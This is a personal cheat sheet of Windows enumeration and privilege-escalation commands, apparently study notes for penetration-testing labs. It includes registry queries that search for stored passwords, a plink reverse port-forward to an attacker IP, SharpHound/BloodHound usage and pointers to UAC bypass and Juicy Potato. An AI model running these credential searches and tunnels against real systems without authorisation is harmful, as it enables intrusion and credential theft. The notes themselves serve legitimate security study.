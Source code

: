# Windows Survey and Privilege Escalation

System Information:
```
systeminfo
ver 
hostname
```

View the current user's information:
```
echo %username%
whoami
whoami /priv
whoami /all

# detailed account information and group memberships:
net user <USERNAME> 
```

Enumerate users and groups: 
```
# local machine
net user
net user <USERNAME>

# domain users 
net user /domain 
net user <USERNAME> /domain

# groups 
net groups
net groups /domain

page 627
```
Networking:
```
ipconfig
ipconfig /all
route print
arp -A
type C:\windows\system32\drivers\etc\networks

# display active TCP connections:
netstat -ano

# with executeanle 
netstat -bano
```


Firewall STatus:
```
#what is the new command?
netsh advfirewall show state
netsh advfirewall show config
```

Users and Groups 
```

#search through user directories

tree /f /a C:\Users\<USERNAME>

```

Password Searching:

Registry:

```
# windows autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

# putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

#VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"

Search the HIVES:
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```


Running proceeses:
```
wmic process list brief
```

Set up port forwarding for services only available on the local machine:
```
# Port forward using plink
plink.exe -l <ATTACKER_USERNAME> -pw <ATTACKER_PASSOWRD> -R <ATTACKER_PORT>:127.0.0.1:<VICTIM_PORT> <ATTACKER_IP>

#The attacker port should provide access to the service from the attacker port on the attacker machine
```

<br /> 

Scripts: 
* winPEAS.bat
* windows-exploit-suggester.py
* WinEnum.ps1

Tools

## Bloodhound
```
#install
sudo apt install bloodhound 

#start bloodhound
bloodhound

#start neo4
neo4j console

#run sharphound on the target windows machine
./Sharphound.exe

#copy the zip file to your attacking machine, drag and drop into neo4j
```
Reference Sauna HTB machine

### Techniques 

UAC Bypass - https://enigma0x3.net/2017/03/17/fileless-uac-bypass-using-sdclt-exe/
Juicy Potato 
* must tell which CLSID to run or let it choose for you which may work 
** well known list for each OS - https://github.com/ohpe/juicy-potato/tree/master/CLSID

icacls - what files do we have read/write/execute abilites?



